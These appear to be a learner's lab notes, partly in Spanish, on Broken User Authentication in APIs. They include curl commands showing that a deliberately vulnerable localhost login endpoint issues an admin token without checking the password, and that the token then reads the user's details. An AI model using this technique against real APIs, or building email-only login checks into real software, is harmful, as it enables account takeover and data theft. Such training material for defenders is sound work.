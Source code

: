 # Broken User Authentication (BUA)

## **How does it happen?**

User authentication is the core aspect of developing any application containing sensitive data. Broken User Authentication (BUA) reflects a scenario where an API endpoint allows an attacker to access a database or acquire a higher privilege than the existing one. The primary reason behind BUA is either **invalid implementation of authentication** like using incorrect email/password queries etc., or the absence of security mechanisms like authorisation headers, tokens etc.

Consider a scenario in which an attacker acquires the capability to abuse an authentication API; it will eventually result in data leaks, deletion, modification, or even the complete account takeover by the attacker. Usually, hackers have created special scripts to profile, enumerate users on a system and identify authentication endpoints. A poorly implemented authentication system can lead any user to take on another user's identity. 

## **Likely Impact** 

In broken user authentication, attackers can compromise the authenticated session or the authentication mechanism and easily access sensitive data. Malicious actors can pretend to be someone authorised and can conduct an undesired activity, including a complete account takeover.

## Practical Example  

-   Continue to use the Chrome browser and Talend API Tester for debugging in the VM.
-   Bob understands that authentication is critical and has been tasked to develop an API endpoint `apirule2/user/login_v` that will authenticate based on provided email and password.
-   The endpoint will return a token, which will be passed as an `Authorisation-Token` header (GET request) to `apirule2/user/details` to show details of the specific employee. Bob successfully developed the login endpoint; however, he only used email to validate the user from the `user table` and ignored the password field in the SQL query. An attacker only requires the victim's email address to get a valid token or account takeover.
-    In the VM, you can test this by sending a `POST` request to `http://localhost:80/MHT/apirule2/user/login_v` with email and password in the form parameters.```

- con la falla, no valida el passowrd
```
curl http://127.0.0.1:80/MHT/apirule2/user/login_v -d "email=admin@mht.com&password=other"

{"success":"true","token":"0g*[v;~5lyx5L15J25sm$nm:cAWZv}"}
```

- asegurado, valida user y password
```
curl http://127.0.0.1:80/MHT/apirule2/user/login_s -d "email=admin@mht.com&password=other"
{"success":"false","cause":"Incorrect Username & Password"}
```

- dado que nos da un toquen, ahora podremos ver los detalles de otro usuario usando el token valido
```
curl http://127.0.0.1:80/MHT/apirule2/user/details -H "Authorization-Token: 0g*[v;~5lyx5L15J25sm$nm:cAWZv}"
{"id":1,"email":"admin@mht.com","name":"Bob","token":"0g*[v;~5lyx5L15J25sm$nm:cAWZv}","address":"H1 Turkey","city":"Mesport","country":"Turkey"}
```

